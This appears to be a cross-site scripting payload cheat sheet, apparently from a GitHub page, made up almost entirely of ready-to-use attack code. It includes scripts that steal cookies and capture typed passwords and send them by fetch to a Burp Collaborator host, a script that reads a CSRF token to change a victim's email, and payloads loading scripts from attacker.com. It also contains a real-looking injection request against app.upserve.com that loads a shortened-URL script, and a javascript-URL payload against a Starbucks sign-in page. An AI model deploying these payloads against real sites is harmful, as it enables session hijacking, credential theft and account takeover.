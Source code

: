 ialert
~~~
<script>alert(10)</script>
~~~


Exploiting cross-site scripting to steal cookies

~~~
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
~~~


Exploiting cross-site scripting to capture passwords

~~~
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
~~~

 Exploiting XSSto perform CSRF
 
~~~
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
~~~


 ~~~
 document.url
 document.document
 document.URLUnencoded
 document.baseURI
 location
 location.href
 location,search
 location.hash
 location.pathname
 ~~~


~~~
"><svg onload=alert(1)>"
~~~


 Reflected XSS: Use simple payloads that execute immediately, such 

~~~
 `<script>alert(1)</script>`
 `<img src=x onerror=alert(1)>`
 `<svg onload=alert(1)>`
~~~


Stored XSS: Use more complex payloads that can execute over multiple requests or persist across sessions, such as 

~~~
`<script src=https://attacker.com/xss.js></script>`
`<iframe src=https://attacker.com/xss.html></iframe>`.
~~~


DOM-based XSS: Use payloads that manipulate the DOM, such as 

~~~
`location=https://attacker.com/evil.html`
`document.write("<script>alert(1)</script>")`.
~~~

Login page or sign page xss payloads

~~~
"><img src=x onerror=alert(document.cookie);>
~~~


Request

~~~
POST /c/user HTTP/1.1
Host: app.upserve.com
Accept: application/json
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://app.upserve.com/settings/account
Content-Length: 134
Content-Type: text/plain;charset=UTF-8
DNT: 1
Connection: close

uuid=</script><script src=//is.gd/z0i2sU>&email[YOUREMAIL]&brand_pretty_url=acewasabis-rock-n-roll-sushi
~~~


Response

~~~
HTTP/1.1 201 Created
Server: nginx
Date: Thu, 13 Jul 2017 11:26:34 GMT
Content-Type: application/json
Content-Length: 239
Connection: close
Status: 201 Created
Access-Control-Allow-Origin: https://app.upserve.com
Access-Control-Allow-Methods: GET, POST, PUT, OPTIONS, DELETE
Access-Control-Expose-Headers: 
Access-Control-Max-Age: 1728000
Access-Control-Allow-Credentials: true
Vary: Origin
ETag: "a8ab39d1ae25526ac5b541fefeb87d08"
Cache-Control: max-age=0, private, must-revalidate
X-Request-Id: 71af833e-003d-4f70-aba5-8318f9cec8e3

{"uuid":"<random UUID, not payload>","email":"asuka@asuka.h1","first_name":null,"last_name":null,"display_name":"Asuka","is_admin":false,"show_new_branding":true,"has_password":false,"loyalty_program_memberships":[],"has_cards":false}
~~~


~~~
Open the url: [https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529](https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529)
~~~


